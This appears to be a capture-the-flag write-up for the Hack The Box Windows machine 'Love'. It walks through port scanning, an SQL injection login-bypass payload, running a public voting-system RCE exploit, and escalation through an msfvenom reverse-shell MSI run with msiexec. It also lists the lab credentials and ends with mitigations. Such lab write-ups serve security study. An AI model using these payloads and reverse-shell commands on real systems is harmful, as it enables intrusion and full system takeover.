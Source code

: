 ```yaml
---
title: Love
date: 2025-05-30
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Windows, SQLi-auth-bypass, voting-system-rce, privesc-AlwaysInstallElevated] 
image: love.png
media_subpath: /assets/img/posts/2025-05-30-loveHTB/
---
```


## Introduction

In this guide, I targeted a Windows machine named **Love**, which hosts a vulnerable voting system application. During port scanning, I discovered a service running on port 5000, but direct access was restricted. Using a public exploit for the voting system, I bypassed the login panel via SQL injection and authenticated as the user *phoebe*. From there, I exploited a remote code execution vulnerability to gain an initial foothold. Upon enumeration, I identified an AppLocker misconfiguration that allowed me to install and execute a malicious `.msi` file, which granted me a reverse shell as **NT AUTHORITY\SYSTEM**.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 139/445

- **smbclient**
    
    ```bash
    smbclient -L //<RHOST>/ -N
    ```
    
    **NT_STATUS_ACCESS_DENIED.**
    

### Port 3306

```bash
mysql -u guest -h $IP -p --ssl=0
```

ERROR 1130 (HY000): Host '10.10.14.12' is not allowed to connect to this MariaDB server

### Port 5985,5986 (WinRM)

## Web

### Port 80

### Port 443

### Port 5000

## Exploitaiton

We can access just port 80, others are forbidden.

Accessing the website at 80 we are greeted with a login page and an application called Voting System.

Searching for public exploits available I found:

- [SQLi Authentication Bypass](https://www.exploit-db.com/exploits/49843)
- [Authenticated RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/49445&ved=2ahUKEwiAw52_psuNAxVLxgIHHc8rLwcQFnoECBcQAQ&usg=AOvVaw3n1GHQ2F1uFcNdOBF79Xem)

Trying the first one:

![image.png](image%202.png)

Maybe number of rows are different.

Determining number of rows:

![image.png](image%203.png)

![image.png](image%204.png)

It is 6.

That means we need to delete one row from username field:

`dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6 from INFORMATION_SCHEMA.SCHEMATA;-- -`

That worked and we are logged in.

![image.png](image%205.png)

But nothing to do here, I ran Gobuster and found `admin` page, and noticed that exploit actually directed for `admin/login.php` . 

**Gobuster Scan**

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php -b 400,403,404
```

![image.png](image%206.png)

I used the payload and logged in.

![image.png](image%207.png)

![image.png](image%208.png)

Then I shifted to trying the second exploit.

```bash
python3 49445.py
```

![image.png](image%209.png)

## Privilege Escalation

Analysing web root I found:

![image.png](image%2010.png)

I found also MySQL credentials:

![image.png](image%2011.png)

I noticed that box restricts usage of executables and scripts I used obtained `phoebe` credentials to connect with `evil-winrm` and run `Bypass-4MSI`, that way I can import PowerShell modules.

Running PowerUp.ps1 I see that `AlwaysInstallElevated` registry key is set.

![image.png](image%2012.png)

MSI (Microsoft Installer) packages are files with the `.msi` extension used for installing, updating, and uninstalling software on Windows. `AlwaysInstallElevated` means Windows will try to install `.msi` as NT Authority\System, and if we put malicious `.msi` reverse shell it will be run as NT Authority\System.

```bash
 msfvenom -p windows/x64/shell_reverse_tcp lhost=<ip> lport=<port> -f msi -o reverse.msi  #reverse shell

```

```powershell
msiexec /quiet /qn /i .\reverse.msi
```

![image.png](image%2013.png)

## Credentials

```bash
Vote Admin Creds admin: @LoveIsInTheAir!!!!
phoebe : HTB#9826^(_  MySQL
```

## Mitigation

- Implement proper input sanitization to prevent SQL injection, especially in authentication mechanisms.
- Regularly patch known vulnerabilities in web applications and third-party services.
- Enforce AppLocker rules with strict whitelisting and monitor for unauthorized executable files.
- Limit user privileges and apply the principle of least privilege.
- Monitor for unusual `.msi` executions and review system logs for suspicious activity.
